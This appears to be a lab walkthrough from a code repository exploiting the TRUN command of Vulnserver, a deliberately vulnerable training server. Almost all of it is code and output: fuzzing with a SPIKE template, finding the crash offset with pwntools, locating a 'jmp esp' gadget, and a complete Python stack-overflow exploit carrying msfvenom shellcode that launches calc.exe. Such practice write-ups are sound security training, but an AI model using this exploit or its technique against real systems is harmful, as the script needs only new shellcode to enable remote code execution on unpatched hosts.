







# Vulnserver TRUN

```
$ nc 192.168.122.186 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
TRUN Hello
TRUN COMPLETE
EXIT
GOODBYE
```

```
s_readline();
s_string("TRUN ");
s_string_variable("FUZZ");
```

```
$ generic_send_tcp 192.168.122.187 9999 trun.spk 0 0
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
line read=Welcome to Vulnerable Server! Enter HELP for help.
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005
```






```py
In [1]: r = remote('192.168.122.186', 9999)
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done

In [2]: r.readline()
Out[2]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [3]: r.writeline(b'TRUN /.:/' + cyclic(5100))
```





```py
In [4]: cyclic_find(0x61616275)
Out[4]: 2003
```

```py
In [1]: r = remote('192.168.122.186', 9999)
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done

In [2]: r.readline()
Out[2]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [3]: r.writeline(b'TRUN /.:/' + b'A' * 2003 + b'BBBB' + bytes(range(1, 256)))
```





```
$ ropper -f ./essfunc.dll --search 'jmp esp'
[INFO] Load gadgets for section: .text
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./essfunc.dll
0x625011af: jmp esp;
```

```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 2003

nop = b'\x90' * 64

# 0x625011af: jmp esp;
ret = p32(0x625011af)

# msfvenom -p windows/exec -b '\x00' -f py CMD=calc.exe
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24\xf4\xbd\xca\x9e\x6e\x40\x58\x31"
buf += b"\xc9\xb1\x31\x83\xc0\x04\x31\x68\x14\x03\x68\xde\x7c"
buf += b"\x9b\xbc\x36\x02\x64\x3d\xc6\x63\xec\xd8\xf7\xa3\x8a"
buf += b"\xa9\xa7\x13\xd8\xfc\x4b\xdf\x8c\x14\xd8\xad\x18\x1a"
buf += b"\x69\x1b\x7f\x15\x6a\x30\x43\x34\xe8\x4b\x90\x96\xd1"
buf += b"\x83\xe5\xd7\x16\xf9\x04\x85\xcf\x75\xba\x3a\x64\xc3"
buf += b"\x07\xb0\x36\xc5\x0f\x25\x8e\xe4\x3e\xf8\x85\xbe\xe0"
buf += b"\xfa\x4a\xcb\xa8\xe4\x8f\xf6\x63\x9e\x7b\x8c\x75\x76"
buf += b"\xb2\x6d\xd9\xb7\x7b\x9c\x23\xff\xbb\x7f\x56\x09\xb8"
buf += b"\x02\x61\xce\xc3\xd8\xe4\xd5\x63\xaa\x5f\x32\x92\x7f"
buf += b"\x39\xb1\x98\x34\x4d\x9d\xbc\xcb\x82\x95\xb8\x40\x25"
buf += b"\x7a\x49\x12\x02\x5e\x12\xc0\x2b\xc7\xfe\xa7\x54\x17"
buf += b"\xa1\x18\xf1\x53\x4f\x4c\x88\x39\x05\x93\x1e\x44\x6b"
buf += b"\x93\x20\x47\xdb\xfc\x11\xcc\xb4\x7b\xae\x07\xf1\x74"
buf += b"\xe4\x0a\x53\x1d\xa1\xde\xe6\x40\x52\x35\x24\x7d\xd1"
buf += b"\xbc\xd4\x7a\xc9\xb4\xd1\xc7\x4d\x24\xab\x58\x38\x4a"
buf += b"\x18\x58\x69\x29\xff\xca\xf1\x80\x9a\x6a\x93\xdc"

r = remote('192.168.122.186', 9999)
r.readline()

r.writeline(b'TRUN /.:/' + pad + ret + nop + buf)
r.close()
```




